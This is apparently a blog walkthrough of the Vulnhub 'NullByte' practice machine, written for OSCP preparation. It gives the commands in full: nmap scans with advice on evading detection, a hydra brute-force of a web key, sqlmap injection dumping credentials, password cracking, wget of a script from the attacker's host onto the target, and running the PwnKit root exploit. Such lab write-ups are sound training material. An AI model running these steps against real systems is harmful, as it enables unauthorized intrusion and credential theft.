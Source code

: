 ```yaml
---
title: NullByte Walkthrough
author: alex
date: Tue 14 Nov 18:15:48 CEST 2023
categories: [Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
img_path: /assets/img/posts/2023-11-14-nullbyte-walkthrough/
---
```


Today I'm hacking into **NullByte**! This is one of the many **beginner-friendly OSCP-like** CTFs of Vulnhub. So it's a great starting point for preparing the OSCP tests.

## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation
   - Gaining root access

## Tools Used

- Netdiscover
- Nmap
- Exiftool

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
Currently scanning: 192.168.10.0/16   |   Screen View: Unique Hosts                                               
                                                                                                                 
2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                   
_____________________________________________________________________________
 IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
192.168.1.1     08:00:27:2d:87:9b      1      60  PCS Systemtechnik GmbH                                          
192.168.1.48    08:00:27:4c:49:6b      1      60  PCS Systemtechnik GmbH       
``` 

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.48
```

> **IDS & FW TRIGGERING** 
> 
> In real world situations, **this scans may trigger firewalls and other network security appliances.** If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable. You can also use `-D` for decoy. Check the Nmap theory **[here!](/posts/oscpath-oscp-certification-guide/#port-scanning)**
{: .prompt-warning }

And the output...

```
PORT      STATE SERVICE VERSION

80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Null Byte 00 - level 1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33720/tcp   status
|   100024  1          34821/tcp6  status
|   100024  1          46770/udp6  status
|_  100024  1          58651/udp   status

777/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 16:30:13:d9:d5:55:36:e8:1b:b7:d9:ba:55:2f:d7:44 (DSA)
|   2048 29:aa:7d:2e:60:8b:a6:a1:c2:bd:7c:c8:bd:3c:f4:f2 (RSA)
|   256 60:06:e3:64:8f:8a:6f:a7:74:5a:8b:3f:e1:24:93:96 (ECDSA)
|_  256 bc:f7:44:8d:79:6a:19:48:76:a3:e2:44:92:dc:13:a2 (ED25519)

33720/tcp open  status  1 (RPC #100024)

MAC Address: 08:00:27:4C:49:6B (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
```

Except for **port 80**, the other ports may look quite weird but for instance, **SSH** service is running on **port 777** instead of 22.

If we start open the address in our browser we can see this:

![01000111 01001111 01000100](/main.gif)

A good habit I have developed after many VMs is that images are worth analyzing. And here I was right! If we download the `.gif` and use `exiftool` on it, we get a weird string that might be a directory: `exiftool main.gif`

```
ExifTool Version Number         : 12.63
File Name                       : main.gif
Directory                       : .
File Size                       : 17 kB
File Modification Date/Time     : 2023:11:13 22:56:33+01:00
File Access Date/Time           : 2023:11:13 22:56:33+01:00
File Inode Change Date/Time     : 2023:11:13 22:56:34+01:00
File Permissions                : -rw-r--r--
File Type                       : GIF
File Type Extension             : gif
MIME Type                       : image/gif
GIF Version                     : 89a
Image Width                     : 235
Image Height                    : 302
Has Color Map                   : No
Color Resolution Depth          : 8
Bits Per Pixel                  : 1
Background Color                : 0
Comment                         : P-): kzMb5nVYJw
Image Size                      : 235x302
Megapixels                      : 0.071
```

So, let's search `http://192.168.1.48/kzMb5nVYJw`. Now we are prompted with a field asking for a key. I tried to find the answer by other means but **Brute Force** was the only way I found to keep going:

## Enumeration

```
sudo hydra 192.168.1.48 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -P /usr/share/wordlists/rockyou.txt -la -v
```

And we get the word **elite**. Now we are prompted with a fiend to look for employees. After looking around, I suspect that **IT IS CONNECTED TO THE DATABASE**. Let's check if **SQL Map** gives any result:

```
sudo sqlmap -u http://192.168.1.48/kzMb5nVYJw/420search.php?usrtosearch= --dbs
```

And sure it does:

```
[09:05:18] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 8 (jessie)
web application technology: Apache 2.4.10
back-end DBMS: MySQL >= 5.5
[09:05:19] [INFO] fetching database names
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] seth
```

Let's dump the **seth** database:

```
sudo sqlmap -u http://192.168.1.48/kzMb5nVYJw/420search.php?usrtosearch= -D seth -dump all
```

Now we get some interesting stuff:

```
Database: seth
Table: users
[2 entries]
+----+---------------------------------------------+--------+------------+
| id | pass                                        | user   | position   |
+----+---------------------------------------------+--------+------------+
| 1  | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | ramses | <blank>    |
| 2  | --not allowed--                             | isis   | employee   |
+----+---------------------------------------------+--------+------------+
```

Another skill I have developed: spot a **base64** string straight away! So, let's head to [CyberChef](https://gchq.github.io/CyberChef/) and decode it:

```
c6d6bd7ebf806f43c76acc3681703b81
```

Well, spotting **MD5** hashes is another valuable skill! If we decode it with [CrackStation](https://crackstation.net/):

```
omega
```

Cool! We have credentials to **SSH** into the machine: `sudo ssh ramses@192.168.1.48 -p 777`. Now we are in!

This is now routine: `cd tmp` to be able to download scripts from our machine. `sudo service apache2 start` in our machine to be reachable. And, the first script I am downloadin it is going to be **Linux Exploit Suggester**. 

```
wget 192.168.1.23/Enumeration/les.sh
```

> **COMMAND** 
> 
> Your command will be different. I have everything organized in **/var/www/html/** so it is easier to find stuff.

## Exploitation

After some enumeration, I can see that this VM is vulnerable to **[PwnKit](https://github.com/ly4k/PwnKit)**:

```
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC

chmod 777 PwnKit

./PwnKit
```

And we get **root**! Now we can go to `/root/` and `cat` the **proof.txt**:

```
adf11c7a9e6523...

It seems that you have pwned the box, congrats. 
Now you done that I wanna talk with you. Write a walk & mail at
xly0n@sigaint.org attach the walk and proof.txt
If sigaint.org is down you may mail at nbsly0n@gmail.com


USE THIS PGP PUBLIC KEY

-----BEGIN PGP PUBLIC KEY BLOCK-----
Version: BCPG C# v1.6.1.0

[I AM NOT DISCLOSING THE PUBLIC KEY, SORRY!]

-----END PGP PUBLIC KEY BLOCK-----








